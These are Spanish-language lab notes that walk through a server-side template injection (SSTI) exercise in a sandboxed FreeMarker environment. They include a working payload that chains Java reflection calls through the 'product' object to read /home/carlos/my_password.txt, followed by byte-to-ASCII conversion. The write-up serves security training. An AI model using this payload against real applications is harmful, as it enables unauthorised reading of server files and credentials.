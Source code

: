 En esta clase explotamos una SSTI en Freemarker dentro de un entorno supuestamente aislado. Usamos el objeto **product** como punto de entrada para encadenar métodos de Java como ‘**getClass()**‘, ‘**getProtectionDomain()**‘ y ‘**openStream()**‘ hasta acceder al archivo sensible ‘**/home/carlos/my_password.txt**‘.

Obtenemos su contenido como bytes ASCII y lo convertimos para resolver el laboratorio, demostrando que incluso los entornos con sandbox pueden ser vulnerables si no se aíslan correctamente los métodos de reflexión.

Solucion
aqui nos encontramos con el mismo de freemarker
![[Pasted image 20250814203648.png]]
entonce nos vamos a buscar el payload
![[Pasted image 20250814204301.png]]
y lo ideal una ves terminado de configurar el payload sera convertirlo ascii
(${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")})
![[Pasted image 20250814204346.png]]
https://www.prepostseo.com/tool/decimal-to-ascii
![[Pasted image 20250814204605.png]]
